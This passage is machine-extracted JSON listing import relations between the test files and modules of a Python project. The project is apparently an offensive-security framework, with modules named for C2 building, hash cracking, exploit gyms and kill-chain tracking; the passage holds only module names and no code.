{"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engagement_command_gate.py", "target": "cli.engagement_hooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engagement_command_gate.py", "target": "cli.engagement_hooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engagement_command_gate.py", "target": "cli.engagement_hooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engagement_command_gate.py", "target": "cli.engagement_hooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engagement_command_gate.py", "target": "cli.engagement_hooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engagement_elo_and_methodology.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engagement_elo_and_methodology.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engagement_elo_and_methodology.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engagement_elo_and_methodology.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engagement_elo_and_methodology.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engagement_elo_and_methodology.py", "target": "modules.cli_auth"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engagement_elo_and_methodology.py", "target": "cli.engagement_hooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engagement_elo_and_methodology.py", "target": "cli.engagement_hooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engagement_elo_and_methodology.py", "target": "cli.engagement_hooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engagement_elo_and_methodology.py", "target": "cli.engagement_hooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engagement_elo_and_methodology.py", "target": "cli.engagement_hooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engagement_elo_and_methodology.py", "target": "cli.engagement_hooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engagement_elo_and_methodology.py", "target": "cli.engagement_hooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engagement_elo_and_methodology.py", "target": "cli.engagement_hooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engagement_elo_and_methodology.py", "target": "cli.engagement_hooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engagement_elo_and_methodology.py", "target": "cli.engagement_hooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engagement_elo_and_methodology.py", "target": "cli.engagement_hooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engagement_elo_and_methodology.py", "target": "cli.engagement_hooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engagement_elo_and_methodology.py", "target": "cli.engagement_hooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engagement_elo_and_methodology.py", "target": "cli.engagement_hooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engagement_elo_and_methodology.py", "target": "cli.engagement_hooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engagement_elo_and_methodology.py", "target": "cli.engagement_hooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engagement_elo_and_methodology.py", "target": "cli.engagement_hooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engagement_elo_and_methodology.py", "target": "cli.engagement_hooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engagement_elo_and_methodology.py", "target": "cli.engagement_hooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engagement_elo_and_methodology.py", "target": "cli.engagement_hooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engagement_elo_and_methodology.py", "target": "cli.engagement_hooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engagement_elo_and_methodology.py", "target": "cli.engagement_hooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engagement_elo_and_methodology.py", "target": "cli.engagement_hooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engagement_elo_and_methodology.py", "target": "cli.engagement_hooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engagement_elo_and_methodology.py", "target": "cli.engagement_hooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engagement_elo_and_methodology.py", "target": "cli.engagement_hooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engagement_elo_and_methodology.py", "target": "cli.engagement_hooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engagement_elo_and_methodology.py", "target": "cli.engagement_hooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engagement_elo_and_methodology.py", "target": "cli.engagement_hooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engagement_elo_and_methodology.py", "target": "cli.engagement_hooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engagement_elo_and_methodology.py", "target": "cli.engagement_hooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engagement_elo_and_methodology.py", "target": "cli.engagement_hooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engagement_elo_and_methodology.py", "target": "cli.engagement_hooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engagement_elo_and_methodology.py", "target": "cli.engagement_hooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engagement_elo_and_methodology.py", "target": "cli.engagement_hooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_engagement_elo_and_methodology.py", "target": "cli.engagement_hooks"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_estorides_fusion.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_estorides_fusion.py", "target": "importlib.util"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_estorides_fusion.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_estorides_fusion.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_estorides_fusion.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_estorides_fusion.py", "target": "modules.estorides_fusion"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_estorides_fusion.py", "target": "modules.surface_ops"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_evidence_hints.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_evidence_hints.py", "target": "tempfile"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_evidence_hints.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_evidence_hints.py", "target": "types"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_evidence_hints.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_evidence_hints.py", "target": "cli.reactive_hints"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_evidence_hints.py", "target": "cli.recommendation_signals"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_evidence_hints.py", "target": "cli.tips_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_executor_kernel.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_executor_kernel.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_executor_kernel.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_executor_kernel.py", "target": "core.safe_exec"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_executor_kernel.py", "target": "modules.command_executor"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_executor_kernel.py", "target": "ast"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_exploitgym_gym.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_exploitgym_gym.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_exploitgym_gym.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_exploitgym_gym.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_exploitgym_gym.py", "target": "modules.exploitgym_gym"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_exploitgym_gym.py", "target": "modules.exploitgym_gym"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_exploitgym_gym.py", "target": "modules.exploitgym_gym"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_exploitgym_gym.py", "target": "modules.exploitgym_gym"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_exploitgym_gym.py", "target": "modules.exploitgym_gym"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_exploitgym_gym.py", "target": "modules.exploitgym_gym"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_exploitgym_gym.py", "target": "modules.exploitgym_gym"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_exploitgym_gym.py", "target": "modules.exploitgym_gym"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_exploitgym_gym.py", "target": "modules.exploitgym_gym"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_exploitgym_gym.py", "target": "modules.exploitgym_gym"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_exploitgym_gym.py", "target": "modules.exploitgym_gym"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_exploitgym_gym.py", "target": "modules.exploitgym_gym"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_exploitgym_gym.py", "target": "modules.exploitgym_gym"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_exploitgym_gym.py", "target": "cli.commands.exploitgym"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_exploitgym_gym.py", "target": "modules.lazyown_bridge"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_exploration_and_addons.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_exploration_and_addons.py", "target": "io"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_exploration_and_addons.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_exploration_and_addons.py", "target": "textwrap"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_exploration_and_addons.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_exploration_and_addons.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_exploration_and_addons.py", "target": "yaml"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_exploration_and_addons.py", "target": "rich.console"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_exploration_and_addons.py", "target": "cli.exploration"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_exploration_and_addons.py", "target": "cli.exploration_view"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_exploration_and_addons.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_exploration_and_addons.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_finding_lifecycle.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_finding_lifecycle.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_finding_lifecycle.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_finding_lifecycle.py", "target": "modules.osint_enrich"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_finding_lifecycle.py", "target": "modules.finding_lifecycle"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_finding_lifecycle.py", "target": "modules.osint_enrich"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_fuzzy_picker.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_fuzzy_picker.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_fuzzy_picker.py", "target": "collections.abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_fuzzy_picker.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_fuzzy_picker.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_fuzzy_picker.py", "target": "cli.fuzzy_picker"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_fuzzy_picker.py", "target": "ast"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_fuzzy_picker.py", "target": "warnings"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_fuzzy_picker.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_fuzzy_picker.py", "target": "cli.banner_config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_fuzzy_picker.py", "target": "utils"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_graph_advisor.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_graph_advisor.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_graph_advisor.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_graph_advisor.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_graph_advisor.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_graph_advisor.py", "target": "cli.graph_advisor"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_graph_advisor.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_graph_overlay.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_graph_overlay.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_graph_overlay.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_graph_overlay.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_graph_overlay.py", "target": "cli.graph_overlay"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_gui_xss_sinks.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_gui_xss_sinks.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_gui_xss_sinks.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_gui_xss_sinks.py", "target": "unittest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_gui_xss_sinks.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_hash_cracker.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_hash_cracker.py", "target": "modules.hash_cracker"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_help_ui_command_set.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_help_ui_command_set.py", "target": "ast"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_help_ui_command_set.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_help_ui_command_set.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_help_ui_command_set.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_help_ui_command_set.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_help_ui_command_set.py", "target": "cli.commands._base"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_help_ui_command_set.py", "target": "cli.commands._dormancy"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_help_ui_command_set.py", "target": "cli.commands.help_ui"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_help_ui_command_set.py", "target": "cli.commands.help_ui"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_help_ui_command_set.py", "target": "cli.commands.help_ui"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_help_ui_command_set.py", "target": "cli.registry"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_help_ui_command_set.py", "target": "cli.commands.help_ui"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_help_ui_command_set.py", "target": "cli.commands.misc_migrated"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_host_policy.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_host_policy.py", "target": "core.hardening"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_host_policy.py", "target": "core.host_policy"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_host_policy.py", "target": "core.validators"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_html_sanitizer.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_html_sanitizer.py", "target": "lazyc2.security.html_sanitizer"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_https_redirect.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_https_redirect.py", "target": "lazyc2.security.https_redirect"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_improvements_spec.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_improvements_spec.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_improvements_spec.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_improvements_spec.py", "target": "tempfile"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_improvements_spec.py", "target": "unittest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_improvements_spec.py", "target": "collections.abc"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_improvements_spec.py", "target": "dataclasses"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_improvements_spec.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_improvements_spec.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_improvements_spec.py", "target": "cli.commands._dormancy"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_improvements_spec.py", "target": "cli.commands.orchestration"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_improvements_spec.py", "target": "cli.registry"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_improvements_spec.py", "target": "cli.status_bar"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_improvements_spec.py", "target": "skills.unified_orchestrator"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_improvements_spec.py", "target": "core.config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_improvements_spec.py", "target": "cli"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_improvements_spec.py", "target": "cli.commands"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_improvements_spec.py", "target": "skills"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_improvements_spec.py", "target": "cmd2"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_improvements_spec.py", "target": "cli.commands.orchestration"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_improvements_spec.py", "target": "cmd2"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_improvements_spec.py", "target": "cmd2.plugin"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_improvements_spec.py", "target": "cmd2"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_improvements_spec.py", "target": "cli.commands.orchestration"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_improvements_spec.py", "target": "cli.status_bar"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_improvements_spec.py", "target": "cli.status_bar"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_improvements_spec.py", "target": "cli.status_bar"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_improvements_spec.py", "target": "cli.reactive_hints"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_improvements_spec.py", "target": "skills.unified_orchestrator"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_improvements_spec.py", "target": "skills.unified_orchestrator"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_improvements_spec.py", "target": "skills.unified_orchestrator"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_infra_disposable.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_infra_disposable.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_infra_disposable.py", "target": "cli.commands.infra"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_infra_disposable.py", "target": "cli.commands.infra"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_infra_disposable.py", "target": "cli.commands.infra"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_infra_disposable.py", "target": "cli.commands.infra"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_infra_disposable.py", "target": "cli.commands.infra"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_infra_disposable.py", "target": "modules.c2_builder"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_infra_disposable.py", "target": "modules.c2_builder"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_infra_disposable.py", "target": "modules.c2_builder"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_infra_disposable.py", "target": "modules.professional_report"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_infra_disposable.py", "target": "modules.professional_report"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_infra_disposable.py", "target": "modules.professional_report"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_infra_disposable.py", "target": "modules.redteam_gym"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_infra_disposable.py", "target": "cli.commands.lab"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_infra_disposable.py", "target": "cli.commands.lab"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_infra_disposable.py", "target": "cli.commands.lab"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_infra_disposable.py", "target": "cli.commands.lab"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_infra_disposable.py", "target": "cli.commands.lab"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_infra_disposable.py", "target": "modules.c2_builder"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_infra_disposable.py", "target": "types"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_infra_disposable.py", "target": "modules.c2_builder"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_infra_disposable.py", "target": "unittest.mock"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_infra_disposable.py", "target": "modules.c2_builder"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_infra_disposable.py", "target": "cli.commands.infra"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_infra_disposable.py", "target": "cli.commands.report_enhanced"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_infra_disposable.py", "target": "cli.commands.report_enhanced"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_infra_disposable.py", "target": "cli.commands.lab"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_infra_disposable.py", "target": "unittest.mock"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_infra_disposable.py", "target": "cli.commands.lab"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_infra_disposable.py", "target": "cli.commands.lab"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_infra_disposable.py", "target": "modules.redteam_gym"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_infra_disposable.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_infra_disposable.py", "target": "modules.session_cleanup"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_infra_disposable.py", "target": "modules.session_cleanup"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_infra_disposable.py", "target": "core.payload_schema"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_input_fuzz.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_input_fuzz.py", "target": "random"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_input_fuzz.py", "target": "string"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_input_fuzz.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_input_fuzz.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_input_fuzz.py", "target": "cli.plugin_tiers"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_input_fuzz.py", "target": "core.validators"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_intel_fusion.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_intel_fusion.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_intel_fusion.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_intel_fusion.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_intel_fusion.py", "target": "modules.intel_fusion"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_intel_fusion.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_intel_fusion.py", "target": "modules.llm_factory"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_intelligence_engine.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_intelligence_engine.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_intelligence_engine.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_intelligence_engine.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_intelligence_engine.py", "target": "modules.intelligence_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_journal.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_journal.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_journal.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_journal.py", "target": "scripts.journal"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_killchain.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_killchain.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_killchain.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_killchain.py", "target": "cli.killchain"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_killchain_auto_refresh.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_killchain_auto_refresh.py", "target": "cli.tips_engine"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_killchain_gap_signal.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_killchain_gap_signal.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_killchain_gap_signal.py", "target": "tempfile"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_killchain_gap_signal.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_killchain_gap_signal.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_killchain_gap_signal.py", "target": "cli.recommendation"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_killchain_gap_signal.py", "target": "cli.recommendation_signals"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_killchain_snapshot.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_killchain_snapshot.py", "target": "base64"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_killchain_snapshot.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_killchain_snapshot.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_killchain_snapshot.py", "target": "modules.killchain"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_killchain_snapshot.py", "target": "cryptography.fernet"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_killchain_snapshot.py", "target": "cryptography.hazmat.primitives"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_killchain_snapshot.py", "target": 